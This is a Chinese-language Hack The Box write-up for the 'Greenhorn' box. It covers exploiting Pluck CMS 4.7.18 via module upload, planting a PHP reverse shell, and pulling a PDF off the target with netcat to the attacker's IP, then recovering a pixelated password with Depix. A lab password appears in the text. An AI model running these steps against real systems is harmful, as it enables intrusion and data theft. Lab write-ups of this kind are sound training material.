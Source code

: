 ```yaml
---
title: "HTB-Greenhorn"
date: 2024-09-17
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

![](./images/image-201.png)

### Dirsearch

![](./images/image-206.png)

找到一些敏感文件

![](./images/image-205.png)

进入`login.php`，发现pluck的版本是`4.7.18`

## CVE-2023-50564

查询相关漏洞之后，发现RCE需要先上传文件。

进入`3000`端口

![](./images/image-207.png)

找到`pass.php`，并尝试解密

![](./images/image-208.png)

![](./images/image-209.png)

![](./images/image-210.png)

登录成功，进入installmodule

![](./images/image-211.png)

这里把反弹shell文件进行压缩后上传

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![](./images/image-213.png)

得到反弹shell

![](./images/image-214.png)

存在两个用户，git和junior，其中junior能进去，但是没有权限读取user.txt

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

升级shell，用之前的密码尝试切换junior用户，得到user.txt

![](./images/image-215.png)

## Privilege Escalation

尝试下载这个pdf文件

使用nc连接传输

```
#靶机
junior@greenhorn:~$ nc -q 0 10.10.16.29 4321 < 'Using OpenVAS.pdf'

#kali
nc -lnvp 4321 > file.pdf
```

![](./images/image-216.png)

打开这个pdf，发现密码被打了码

![](./images/image-217.png)

Github工具：[spipm/Depix: Recovers passwords from pixelized screenshots (github.com)](https://github.com/spipm/Depix)

![](./images/image-219.png)

```
python3 depix.py -p /home/kali/Pictures/ma.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o output.png 
```

![](./images/image-218.png)

勉强能看出是：`sidefromsidetheothersidesidefromsidetheotherside`

![](./images/image-220.png)

## Summary

做到这个题目才知道有`Depix`这种消除马赛克的东西，感觉很厉害

整体来说比较常规
